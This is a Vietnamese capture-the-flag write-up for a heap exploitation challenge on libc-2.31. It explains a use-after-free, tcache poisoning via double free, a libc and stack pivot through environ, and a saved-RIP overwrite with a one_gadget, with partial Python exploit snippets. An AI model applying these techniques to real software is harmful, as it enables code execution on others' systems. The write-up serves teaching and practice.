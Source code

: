 ### Ý tưởng
- challenge cho ta 3 file gồm `binary`, `libc` và `ld`, ta sẽ dùng ida để `decompiler` xem chương trình hoạt động như nào

- ![image-20230323221452603](./assets/image-20230323221452603.png)

- Chương trình có 3 `option`: `create`, `delete` và `math`. Dường như nó là một chương trình khá đơn giản, mọi dữ liệu được thao tác trên `heap` và nó không có một hàm in dữ liệu nào do đó ta không thể leak bất cứ thứ gì.

- ![image-20230323221824179](./assets/image-20230323221824179.png)

- ![image-20230323222153135](./assets/image-20230323222153135.png)

- Hàm `delete` sau khi `free` thì lại không xóa con trỏ do đó có thể gây ra lỗi `UAF`

- Ở hàm `create` không có gì nổi bật khi ta chỉ tạo được `heap` nhưng không ghi được gì vào.

- Tuy nhiên ở  hàm math lại có một thứ mà ta có thể khai thác

- ![image-20230323221951001](./assets/image-20230323221951001.png)

- Các `chunk` sẽ được `add` các giá trị tương ứng với `buf`, `v3`, `v4`. Do là `add` nên ta có thể `control` giá trị của `fd pointer` khi nó đã `free`, với phiên bản `libc-2.31` thì cơ chế `xor` chưa xuất hiện nên bên trong `fd pointer` là một địa chỉ được `free` trước đó. Ta có thể lợi dụng hàm này để có thể trỏ đến một vị trí tùy ý trên `heap` cũng như thay đổi `fd pointer + 8` để `double free`.

- Mục tiêu của ta sẽ là đưa 1 `chunk` vào `unsorted bin` chuyển `libc` vào `fd pointer` để ta có thể tùy ý trỏ tùy ý trên phân vùng `libc`. Tiếp đến ta sẽ trỏ đến `environ` của `libc` để có được `stack` và thực hiện ghi đè 2 `saverip` của `math` và `main`.

### Exploit

​	- Đầu tiên ta sẽ tạo một lượng lớn `heap` để `overlap` các `chunk`

- ```python 
  for i in range(40):
      choice(1)
  ```

- ```python
  double_free(0)
  choice(3, 0, p64(0x18))
  choice(1)
  choice(1)
  choice(3, 41, p64(0x420))
  
  choice(2, 1)
  ```

- Sau đó ta `double free` 1 `chunk` và khiến `fd pointer` của nó trỏ đến `size` của `chunk` kế tiếp, mục đích là để thay đổi `size` của `chunk` kế tiếp thành `0x440` để đưa `chunk` này vào `unsorted bin` 

- ![image-20230323224555937](./assets/image-20230323224555937.png)

- ![image-20230323230734354](./assets/image-20230323230734354.png)

- ![image-20230323231447624](./assets/image-20230323231447624.png)

- Dựa theo cơ chế của `libc-2.31` thì số `chunk` được `malloc` trong `tcache` phụ thuộc vào `count` hay là số lần `free`, vậy nên để `malloc` vào `libc` và `stack` ta cần 4 lần `malloc` với `chunk` ngoài cùng sẽ là `chunk` đệm để ta control `fd pointer`: `control->heap->libc->stack`.

- ```python
  choice(2, 3)
  choice(2, 4)
  choice(2, 0)
  choice(2, 5)
  
  choice(3, 5, p64(0x20))
  choice(3, 1, p64(0x2a20))
  ```

- sau khi `free` 4 chunk ta sẽ khiến `chunk heap` tăng `0x20` để nó trỏ vào `libc` của `unsorted bin` rồi thay đổi giá trị `libc` này thành `libc-environ` để nó trỏ vào `stack`

- ![image-20230323232339388](./assets/image-20230323232339388.png)

- sau khi có `stack` ta sẽ đưa 3 `chunk` ra ngoài lúc này chỉ còn mỗi `stack` trong `tcache`.

- ```python
  for i in range(3):
      choice(1)
  ```

- ![image-20230323232533552](./assets/image-20230323232533552.png)

- ta để lại `stack` là để `free` 1 `chunk heap` vào lúc này `tcache` có dạng `heap->stack` và ta có thể trỏ đến `stack` tùy ý.

- ```python
  choice(2, 7)
  choice(3, 7, p64(-256, sign=True))
  choice(1)
  choice(1)
  choice(3, 46, p64(0xbfa7e))
  ```

- bây giờ ta sẽ trỏ đến `saverip` của `main` và ghi đè thành `one_gadget` với `offset` là `0xbfa7e`

- ![image-20230323232935594](./assets/image-20230323232935594.png)

- ![image-20230323233013941](./assets/image-20230323233013941.png)

- do `main` là một `loop` vô tận nên ta không thể `ret` tự nhiên được, đồng thời điều kiện thực thi `one_gadget` thiếu `rdx` do nó khác `0` nên ta sẽ thay đổi `saverip math` để nó set `rdx = 0` và `leave ; ret`

- ta thấy được 1 đoạn của `create` sẽ giải quyết 2 điều này, do lúc `ret` của `math` `rax = 0`

- ![image-20230323233710042](./assets/image-20230323233710042.png)

- lặp lại các bước trên để đưa tiếp tục control `stack`

- ```python
  choice(2, 10)
  choice(2, 6)
  choice(2, 11)
  choice(3, 7, p64(-0x20, sign=True))
  
  choice(3, 11, p64(0x20))
  for i in range(3):
      choice(1)
  ```

- Ta sẽ thay đổi `saverip math` thành `create+60`

- ![image-20230323233520284](./assets/image-20230323233520284.png)

- ![image-20230323233759588](./assets/image-20230323233759588.png)

-  ![image-20230323233820813](./assets/image-20230323233820813.png)